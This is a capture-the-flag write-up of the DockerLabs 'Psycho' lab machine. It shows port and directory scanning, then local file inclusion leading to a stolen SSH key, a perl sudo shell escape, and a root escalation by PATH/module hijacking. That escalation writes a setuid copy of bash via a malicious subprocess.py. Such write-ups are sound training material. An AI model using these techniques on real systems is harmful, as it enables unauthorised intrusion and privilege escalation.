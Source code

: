 ```yaml
---
layout: post
title: "DockerLabs - Psycho"
# date: 2025-06-14 10:00:00 +0700
categories: [dockerlabs]
tags: [ctf, linux, pathinjection, lfi, perl]
image: /assets/images/Psycho/doro.jpg
---
```

# Psycho

## Enumeration

### Nmap Port Scanning

```bash
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 38bb36a41860eea8d10a61976c830605 (ECDSA)
|_  256 a34e4f6f76f2ba50c61a5440959c2041 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: 4You
|_http-server-header: Apache/2.4.58 (Ubuntu)
```

### Directory and Files Bruteforce

```bash
[Jun 14, 2025 - 20:11:59 (WIB)] exegol-dockerlabs Psycho # ffuf -c -w `fzf-wordlists` -u "http://172.17.0.2:80/FUZZ"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2:80/FUZZ
 :: Wordlist         : FUZZ: /opt/lists/seclists/Discovery/Web-Content/raft-small-directories-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

assets                  [Status: 301, Size: 309, Words: 20, Lines: 10, Duration: 0ms]
server-status           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
```

```bash
[Jun 14, 2025 - 20:12:40 (WIB)] exegol-dockerlabs Psycho # ffuf -c -w `fzf-wordlists` -u "http://172.17.0.2:80/FUZZ"

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://172.17.0.2:80/FUZZ
 :: Wordlist         : FUZZ: /opt/lists/seclists/Discovery/Web-Content/raft-small-files-lowercase.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

index.php               [Status: 200, Size: 2596, Words: 674, Lines: 63, Duration: 1ms]
.htaccess               [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.                       [Status: 200, Size: 2596, Words: 674, Lines: 63, Duration: 0ms]
.html                   [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.php                    [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
main.css                [Status: 200, Size: 619, Words: 90, Lines: 42, Duration: 0ms]
.htpasswd               [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.htm                    [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.htpasswds              [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.htgroup                [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
wp-forum.phps           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.htaccess.bak           [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
.htuser                 [Status: 403, Size: 275, Words: 20, Lines: 10, Duration: 0ms]
```

## Initial Access

### Discover Secret Parameter

![image.png](assets/images/Psycho/image.png)

### Discover Local File Inclusion

![image.png](assets/images/Psycho/image%201.png)

### Discover vaxei id_rsa files

![image.png](assets/images/Psycho/image%203.png)
![image.png](assets/images/Psycho/image%204.png)

### Shell as Luisillo

vaxei can run perl with luisillo user lets spawn shell [https://gtfobins.github.io/gtfobins/perl/#sudo](https://gtfobins.github.io/gtfobins/perl/#sudo)
![image.png](assets/images/Psycho/image%205.png)
![image.png](assets/images/Psycho/image%206.png)

## Privilege Escalation

Luisillo can run /opt/paw.py with sudo permission
```bash
luisillo@43cb958806c4:~$ sudo -l
Matching Defaults entries for luisillo on 43cb958806c4:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User luisillo may run the following commands on 43cb958806c4:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/paw.py
```

This file is vulnerable to path injection
```bash
import subprocess
import os
import sys
import time

# F
def dummy_function(data):
    result = ""
    for char in data:
        result += char.upper() if char.islower() else char.lower()
    return result

# Código para ejecutar el script
os.system("echo Ojo Aqui")

# Simulación de procesamiento de datos
def data_processing():
    data = "This is some dummy data that needs to be processed."
    processed_data = dummy_function(data)
    print(f"Processed data: {processed_data}")

# Simulación de un cálculo inútil
def perform_useless_calculation():
    result = 0
    for i in range(1000000):
        result += i
    print(f"Useless calculation result: {result}")

def run_command():
    subprocess.run(['echo Hello!'], check=True)

def main():
    # Llamadas a funciones que no afectan el resultado final
    data_processing()
    perform_useless_calculation()
    
    # Comando real que se ejecuta
    run_command()

if __name__ == "__main__":
    main()
```

![image.png](assets/images/Psycho/image%207.png)

This code vulnerable!
```bash
def run_command():
    subprocess.run(['echo Hello!'], check=True)
```

Add /opt to $PATH
```bash
luisillo@43cb958806c4:/opt$ export PATH=/opt:$PATH
luisillo@43cb958806c4:/opt$ echo $PATH
/opt:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin
luisillo@43cb958806c4:/opt$ 
```

Now we can create /opt/subprocess.py file with malicious content such:

```bash
import os
os.system("cp /bin/bash /tmp/root && chmod u+s /tmp/root")
```

![image.png](assets/images/Psycho/image%208.png)

`/tmp/root -p` for spawning a root shell

![image.png](assets/images/Psycho/image%209.png)
